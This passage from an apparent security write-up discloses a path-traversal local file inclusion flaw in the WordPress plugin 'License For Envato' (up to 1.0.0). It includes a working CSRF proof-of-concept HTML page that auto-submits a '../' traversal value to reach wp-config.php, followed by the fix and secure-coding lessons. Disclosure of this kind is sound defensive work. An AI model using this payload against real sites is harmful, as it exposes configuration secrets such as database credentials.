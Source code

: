 `plugin_page()` is called via the "Settings" submenu callback, registered in `admin_menu()`.

This submenu requires the `manage_options` capability, so it is shown only to admins. When an admin opens the "Settings" submenu (endpoint `licenseenvato-settings`), WordPress calls `settings()`, which instantiates the `Settings` class and runs `plugin_page()`.

## Exploit

### Proof of Concept (PoC)

#### Step 1

Create a page that contains the LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>w41bu1</title>
</head>
<body>
    <form action="http://localhost/wp-admin/admin.php" method="get">
        <input type="text" name="page" value="licenseenvato-settings">
        <input type="text" name="tab" value="../../../../../../wp-config">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Send the link to the admin

**Result**:

The debugger jumped to `wp-config.php`

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion

Version **≤ 1.0.0** of License For Envato allows LFI because `include()` uses `$atts['template']` without proper validation; the vulnerability was fixed in **1.1.0** using `basename()` + `realpath()` and base_dir checks.

## Key takeaways

* Using **only `sanitize_text_field()` is not sufficient** to prevent path traversal in PHP.
* Any parameter used in `include()` or file operations **must be controlled by a whitelist or validated via `realpath()`**.
* **CSRF combined with LFI** can turn an admin-only flaw into an **unauthenticated** vulnerability if nonce verification is missing.
* Inputs must be strictly validated and the scope of accessible files restricted, especially in plugins that handle templates or views.
* Always validate and constrain paths when including files — never trust request data even if it has been “sanitized”.
